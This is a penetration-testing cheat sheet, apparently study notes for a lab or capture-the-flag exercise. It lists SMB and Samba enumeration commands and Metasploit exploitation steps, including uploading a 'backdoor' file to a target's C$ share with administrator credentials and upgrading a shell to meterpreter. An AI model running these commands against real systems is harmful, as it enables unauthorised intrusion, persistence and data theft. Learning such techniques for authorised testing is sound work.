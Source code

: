 - `smbmap -u administrator -p smbserver_771 -d . -H 10.0.1.22 -r 'C$'` ---> reads the content of the 'C' drive
- `smbmap -u administrator -p smbserver_771 -d . -H 10.0.1.22 --upload '/root/backdoor' 'C$\backdoor'`
  - `--upload '/root/backdoor'`---> upload the backdoor file 
  - `'C$\backdoor'`  ---> giving the path to where to upload the backdoor file in target system 
- `smbmap -u administrator -p smbserver_771 -d . -H 10.0.1.22 --download "C$\flag.txt"`
- 
## Samba

#### Metasploit
* To find the smb version we can use metasploit also
- `msfconsole`
- `user auxiliary/scanner/smb/smb_version`
- `show options`
- `set rhosts <target_ip>`
- `run` or `exploit`

### nmblookup
- `nmblookup -A 10.0.1.22`
  - If you get the result `SAMBA-RECON  <20>`
  - That means there is a server running
  - so using `smbclient` we can connect to the server
  
#### smbclient
- `smbclient -L 10.0.1.22 -N`
- `rpcclient -U "" -N 10.0.1.22`

### Samba 2
- `rpcclient -U "" -N 10.0.1.22`
  - `enumdomusers`
  - `lookupnames admin`
  - `srvinfo`
- `enum4linux -o 10.0.1.22`
- `enum4linux -U 10.0.1.22`
- `smbclient -L 10.0.1.22 -N`
- `msfconsole`
- `use auxiliary/scanner/smb/smb2`
- `set RHOSTS 10.0.1.22`
- `exploit`










# exploiting using metasploit framework
- __`search type:exploit name:samba`__
- __`search pipename`__
```
use exploit/Linux/samba/is_know_pipename
exploit
```
ctr+z
upgrading to meterpreter session
```
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set LHOST ech1
set session 1
exploit
```